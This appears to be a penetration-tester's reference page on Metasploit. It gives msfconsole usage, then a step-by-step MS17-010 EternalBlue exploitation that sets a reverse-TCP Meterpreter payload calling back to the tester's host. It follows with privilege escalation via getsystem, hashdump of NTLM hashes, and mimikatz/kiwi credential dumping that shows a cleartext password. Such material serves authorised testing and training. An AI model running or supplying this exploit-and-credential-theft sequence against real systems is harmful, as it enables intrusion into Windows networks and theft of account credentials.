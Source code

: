 ```yaml
---
title : "Metasploit"
# pre : ' '
description : "The world's most used penetration testing framework."
date : 2020-03-11T16:59:30+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## Metasploit

The world's most used penetration testing framework.

### Installation

Please use [Kali Linux](https://www.kali.org/)

Download newest release from [Github.com](https://github.com/rapid7/metasploit-framework/releases)

### Usage

```plain
msfconsole [options]
```

### Flags

```plain
Usage: msfconsole [options]

Common options:
    -E, --environment ENVIRONMENT    Set Rails environment, defaults to RAIL_ENV environment variable or 'production'

Database options:
    -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
    -n, --no-database                Disable database support
    -y, --yaml PATH                  Specify a YAML file containing database settings

Framework options:
    -c FILE                          Load the specified configuration file
    -v, -V, --version                Show version

Module options:
        --defer-module-loads         Defer module loading unless explicitly asked.
    -m, --module-path DIRECTORY      Load an additional module path

Console options:
    -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
    -H, --history-file FILE          Save command history to the specified file
    -L, --real-readline              Use the system Readline library instead of RbReadline
    -o, --output FILE                Output to the specified file
    -p, --plugin PLUGIN              Load a plugin on startup
    -q, --quiet                      Do not print the banner on startup
    -r, --resource FILE              Execute the specified resource file (- for stdin)
    -x, --execute-command COMMAND    Execute the specified console commands (use ; for multiples)
    -h, --help                       Show this message
```

### Meterpreter examples

#### getsystem

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

#### hashdump

```plain
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]
```

### Examples

### MS17-010 - Eternalblue

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="ms17-010.*(mp4)"/%}}

#### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

#### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

```plain
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...]

meterpreter > load kiwi
Loading extension kiwi...
mimikatz 2.2.0 20191125 (x64/windows)
Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain   NTLM                              SHA1                                      LM
--------       ------   ----                              ----                                      --
Administrator  OFFSEC   97f2592347d8fbe42be381726ff9ea83  d0321e2e4e0712ba7b3f8c1998931312bf6a8b05  12a3cf9e7ff5e329f76ccb47241e3d88
DC2008R2$      OFFSEC   34acde5ae873319558ae6f191e8877bf  186dfbdbae180d8eb4c4406b03250e5194adf6af  

wdigest credentials
===================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  OFFSEC   Welkom1234
[...]
```

### URL list

* [Metasploit.com](https://www.metasploit.com/)
* [Offensive-security.com Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [GitHub.com - Metasploit framework](https://github.com/rapid7/metasploit-framework)
